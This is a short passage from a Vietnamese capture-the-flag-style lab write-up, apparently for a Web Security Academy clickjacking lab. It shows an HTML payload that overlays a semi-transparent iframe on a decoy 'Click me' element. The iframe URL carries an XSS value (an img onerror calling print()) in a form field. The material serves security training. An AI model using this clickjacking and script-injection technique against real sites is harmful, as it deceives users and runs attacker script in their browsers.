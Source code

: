 ![Alt text](../image/lab4/03.png)

Giờ thì thêm `HTML` để lừa người dùng click và kích hoạt hàm `print()` thôi

```
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 806px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a33008a032d832d8209d9560020006d.web-security-academy.net/feedback/?name=%3Cimg+src%3D%221%22+onerror%3Dprint%28%29%3E&email=a%40test&subject=a&message=a"></iframe>
```

`View exploit` xem thửu kết quả

